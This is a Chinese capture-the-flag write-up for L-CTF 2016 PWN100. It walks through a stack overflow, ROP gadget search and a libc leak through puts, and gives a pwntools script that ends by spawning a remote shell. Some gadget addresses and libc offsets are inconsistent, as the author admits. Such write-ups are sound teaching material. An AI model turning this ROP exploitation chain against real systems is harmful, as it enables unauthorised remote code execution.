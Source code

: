 ```yaml
---
layout: post
title:  "L-CTF PWN100"
date:   2016-10-09 11:49:45 +0200
categories: ctf,pwn
published: true
---
```

漏洞是一个栈溢出
其中的sub_40063D内部有个read()，读入了0xC80个字节的数据，V1是bp-40h明显栈溢出
然后就可以考虑构造rop，lib泄露，调用system

关于lib泄露：
在程序的FUNTION中找到一个系统函数，这道题就用了puts，记下它在.got.plt中的地址为之后的rop构造做准备。
此题的目标是替换bp后的return地址为指令pop_rdi_ret，在二进制文件中查找该指令，可以运用ROPgadget-master库
具体代码是：
     在ROPgadget-master目录下，运行Python ROPgadget.py --binary filename
运行结果为：

{% highlight ruby %}
root@DESKTOP-I943ECH:/mnt/e/pwntools/ROPgadget-master# python ROPgadget.py  --binary ../pwn100
Gadgets information
============================================================
0x00000000004005a4 : adc byte ptr [rax], ah ; jmp rax
0x00000000004005e4 : adc byte ptr [rax], ah ; jmp rdx
0x000000000040076f : add bl, dh ; ret
0x000000000040076d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040076b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006fa : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040076c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004006fb : add byte ptr [rax], al ; add cl, cl ; ret
0x00000000004004db : add byte ptr [rax], al ; add rsp, 8 ; ret
0x00000000004006fc : add byte ptr [rax], al ; leave ; ret
0x000000000040076e : add byte ptr [rax], al ; ret
0x0000000000400608 : add byte ptr [rcx], al ; ret
0x00000000004006fd : add cl, cl ; ret
0x0000000000400604 : add eax, 0x200a56 ; add ebx, esi ; ret
0x00000000004005cb : add eax, edx ; sar rax, 1 ; jne 0x4005dc ; pop rbp ; ret
0x0000000000400609 : add ebx, esi ; ret
0x00000000004004de : add esp, 8 ; ret
0x00000000004005ca : add rax, rdx ; sar rax, 1 ; jne 0x4005dd ; pop rbp ; ret
0x00000000004004dd : add rsp, 8 ; ret
0x0000000000400607 : and byte ptr [rax], al ; add ebx, esi ; ret
0x000000000040062d : call rax
0x00000000004007b3 : call rsp
0x00000000004005cf : clc ; jne 0x4005d8 ; pop rbp ; ret
0x0000000000400686 : cld ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400668 ; leave ; ret
0x0000000000400685 : cld ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400669 ; leave ; ret
0x000000000040058d : cmp eax, 0xe ; mov rbp, rsp ; ja 0x4005a0 ; pop rbp ; ret
0x0000000000400687 : cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400667 ; leave ; ret
0x00000000004006b5 : dec ecx ; ret
0x000000000040074c : fmul qword ptr [rax - 0x7d] ; ret
0x00000000004005a0 : hlt ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x0000000000400593 : ja 0x40059a ; pop rbp ; ret
0x000000000040059f : je 0x40059d ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x000000000040068a : jl 0x400664 ; leave ; ret
0x00000000004005a7 : jmp rax
0x00000000004005e7 : jmp rdx
0x00000000004005d0 : jne 0x4005d7 ; pop rbp ; ret
0x000000000040068c : leave ; ret
0x0000000000400603 : mov byte ptr [rip + 0x200a56], 1 ; ret
0x00000000004006f9 : mov eax, 0 ; leave ; ret
0x0000000000400684 : mov eax, dword ptr [rbp - 4] ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x40066a ; leave ; ret
0x000000000040062b : mov ebp, esp ; call rax
0x0000000000400591 : mov ebp, esp ; ja 0x40059c ; pop rbp ; ret
0x0000000000400625 : mov edi, 0x600e20 ; mov rbp, rsp ; call rax
0x00000000004005a2 : mov edi, 0x601050 ; jmp rax
0x00000000004005e2 : mov edi, 0x601050 ; jmp rdx
0x00000000004005e0 : mov esi, eax ; mov edi, 0x601050 ; jmp rdx
0x000000000040062a : mov rbp, rsp ; call rax
0x0000000000400590 : mov rbp, rsp ; ja 0x40059d ; pop rbp ; ret
0x00000000004005df : mov rsi, rax ; mov edi, 0x601050 ; jmp rdx
0x0000000000400768 : nop dword ptr [rax + rax] ; ret
0x0000000000400606 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x000000000040075c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040075e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400760 : pop r14 ; pop r15 ; ret
0x0000000000400762 : pop r15 ; ret
0x0000000000400602 : pop rbp ; mov byte ptr [rip + 0x200a56], 1 ; ret
0x00000000004005a1 : pop rbp ; mov edi, 0x601050 ; jmp rax
0x00000000004005de : pop rbp ; mov rsi, rax ; mov edi, 0x601050 ; jmp rdx
0x000000000040075b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040075f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400595 : pop rbp ; ret
0x0000000000400763 : pop rdi ; ret
0x0000000000400761 : pop rsi ; pop r15 ; ret
0x000000000040075d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005a3 : push rax ; adc byte ptr [rax], ah ; jmp rax
0x00000000004005e3 : push rax ; adc byte ptr [rax], ah ; jmp rdx
0x0000000000400624 : push rbp ; mov edi, 0x600e20 ; mov rbp, rsp ; call rax
0x0000000000400605 : push rsi ; or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x00000000004004e1 : ret
0x00000000004005c5 : ret 0xc148
0x00000000004005cc : ror byte ptr [rax - 0x2f], 1 ; clc ; jne 0x4005db ; pop rbp ; ret
0x000000000040059e : sal byte ptr [rsp + rsi*8 + 0x5d], 0xbf ; push rax ; adc byte ptr [rax], ah ; jmp rax
0x00000000004005ce : sar eax, 1 ; jne 0x4005d9 ; pop rbp ; ret
0x00000000004005cd : sar rax, 1 ; jne 0x4005da ; pop rbp ; ret
0x0000000000400775 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000400774 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040076a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret

Unique gadgets found: 77

{% endhighlight %}

找到其中pop redi;ret的地址为0x0000000000400762
pop redi;ret;的目的是将栈中下一个内容存放在rdi中，然后调用输出函数，把栈中下一个内容输出。
故下一步为将栈中下一个内容替换为puts函数的系统地址的存放地址，刚刚查找过的0x0000000000601018。
将再下一个地址替换为puts地址，即输出puts在目标系统中的地址。（这个地址是动态的，只有最后3位是不变的）
综上，可以写出以下的python脚本：

{% highlight ruby %}
from pwn import *

pwn = remote('119.28.63.211',2332)

pop_rdi_ret = 0x0000000000400763
loop = p64(0x00040068e)

#---------------leak

payload = ''
payload += 'B'*72   #  puts.plt
payload += p64(pop_rdi_ret)
payload += p64(0x000601018)
payload += p64(0x0000400500)
payload += loop

pwn.send(payload +'A'*(200-len(payload)))
pwn.recvuntil('bye~\n')

re = pwn.recv(6)

#-------------------cal

puts_got = u64(re+'\x00'*2)
print puts_got
print 'puts_got = ',hex(puts_got)
{% endhighlight %}
完成了lib泄露的步骤。
然后就是找shell code了。利用找到的后三位，使用库libc-database，可以找到该系统shell的地址。
具体代码如下：
{% highlight ruby %}
root@DESKTOP-I943ECH:/mnt/e/pwntools/libc-database# ./find puts 7c0
archive-eglibc (id libc6-i386_2.15-0ubuntu10.15_amd64)
{% endhighlight %}
找到了库名，然后：
{% highlight ruby%}
root@DESKTOP-I943ECH:/mnt/e/pwntools/libc-database# ./dump libc6-i386_2.15-0ubuntu10.15_amd64
offset___libc_start_main_ret = 0x19513
offset_system = 0x0003eed0
offset_dup2 = 0x000df4f0
offset_read = 0x000debe0
offset_write = 0x000dec60
offset_str_bin_sh = 0x15d7ec
{% endhighlight %}
找到了系统的函数地址。然后就好说了，再栈溢出一次就OK，所以接下来的代码是：
{% highlight ruby%}
sys_addr = puts_got - 0x000070c70 + 0x00000468f0
binsh_addr = puts_got - 0x0000070c70 + 0x0017dbc5

print 'sys_addr = ',hex(sys_addr)
print 'binsh_addr = ',hex(binsh_addr)

#---------------------

payload = ''
payload += 'A'*72
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)
payload += p64(0x12345678)

pwn.send(payload+'A'*(200-len(payload)))

pwn.recvuntil('bye~\n')

pwn.interactive()
{% endhighlight %}
要注意的是函数的地址得加上偏移量。（由于写笔记时服务器已经关闭，所以函数地址有所出入）